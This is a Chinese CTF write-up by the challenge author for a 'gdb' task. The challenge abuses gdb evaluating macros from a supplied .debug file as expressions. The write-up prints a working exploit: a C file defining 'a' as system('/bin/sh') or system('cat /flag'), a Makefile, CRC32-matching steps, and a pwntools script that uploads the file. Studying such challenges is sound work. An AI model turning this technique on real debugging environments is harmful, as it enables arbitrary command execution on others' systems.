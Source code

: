 # Writeups by Anciety

## gdb

### 题目介绍

本题目的来源是在今年参加 DEFCON 的时候碰到的题目，exploit-for-dummies，当时的题目情况和这题目类似，我们在做的过程中发现了 gdb 的一些奇怪的行为，最后决定把他作为一道题目。

这道题目其实在今年 XCTF 决赛的线下赛中已经使用过了，但是并没有预期答案，当时出现了一些小问题，非预期（很遗憾的是，这次还是出现了……忘记修了），后来修复之后就没有预期解了。

题目的逻辑很简单，远程的 gdb 会 debug 一个程序，程序中并不执行什么功能，但是会在断在 main 函数之后试图打印 a 变量，之后就退出了。

整体的思路来说，我们要在打印 a 变量的时候，试图 trick gdb ，让他打印出 flag。

### 预期思路

这是一个我们在 DEFCON 参赛时发现的问题， gdb 在处理宏的时候，**并不是将宏作为"变量"进行处理的**，而是直接认为是一个表达式。

这样，当宏的实际定义是一个合法的 gdb 表达式时，就会直接**运行这个表达式**，通过这样的方式，在打印 a 变量时，如果 a 变量是一个宏，其实是可以直接运行一小段 gdb 表达式的，这样其实就可以干很多事情了，甚至直接进入系统。

所以题目的解法并不难：

1. `#define a system("/bin/sh")` ，然后编译这个程序，注意需要用 `-g3` 编译，否则宏信息不会在最终输出的文件中。
2. 大小可能会超标，所以编译时可能需要带一些参数，比如 `gcc -o hello hello.c -g3 -nostartfiles -nostdlib -nodefaultlibs -undef`
3. 由于我们所编译的文件和实际 gdb debug 的文件不一样，所以需要 CRC32 值能够成功匹配，gdb 才能够自动加载我们的debug文件，所以需要过一下 CRC32 的 check 。（需要了解一下 DWARF 对 CRC32 机制的验证）

其中其实，除了CRC32部分，甚至都可以不需要了解 DWARF （debug文件信息）的格式。

### 非预期问题

#### 愚蠢的 bug

这个 bug 就是在 XCTF 中已经出现的愚蠢 bug …… 在脚本中，最后忘记添加 `-ex q` ，导致在执行完命令之后，用户依然还在 gdb 的 CLI 里，可以直接执行命令。。。当然，这个 bug 太严重，所以最后修复了。

#### 其他非预期

没想到的是，居然还看到了一种新的非预期解题方式，思路也比较巧妙，主要是利用了 gdb 会自动打印当前行源码的特点，然后将 debug 文件中，源码路径的部分直接修改为 `/flag` ，从而在打印文件时，直接可以打印源码。

事实上这种方式也是利用了 gdb 的特点，虽然是非预期，但是我认为还是基本符合 “探索 gdb 的奇怪行为” 的主题的，所以也没有针对性进行修复，十分有意思的想法。

如果需要进行针对性的修复的话，可以将 `/flag` 的读取变为运行一个文件才能读到 flag ，这样就必须获取到 shell 了。

### 答案

hello.c

```c
/* This file should deal with the debug section generation */

#define a system("cat /flag")

int main() {
    return 0;
}
```

解决 crc32 问题：[fixcrc.py](sol/gdb/fixcrc.py) 和 [forcecrc32.py](sol/gdb/forcecrc32.py) 。


生成 .debug 文件（Makefile）：

```makefile
all:
	gcc -o hello hello.c -g3 -nostartfiles -nostdlib -nodefaultlibs -undef
	objcopy --only-keep-debug hello hello.debug
	python3 fixcrc.py
	rm hello

clean:
	rm hello.debug
```

交互脚本：

```python
from pwn import *

p = remote("prob14.geekgame.pku.edu.cn", 10014)
p.sendlineafter("token:", token)

p.recvuntil('> \n')

with open('./hello.debug', 'rb') as f:
    content = f.read()

print(len(content))

p.send(content)
p.shutdown('write')
p.interactive()
```

PS：可以发送满 0x1024 字节。或者用 pwntools 的 [shutdown](https://docs.pwntools.com/en/stable/tubes.html#pwnlib.tubes.tube.tube.shutdown) 函数结束输出。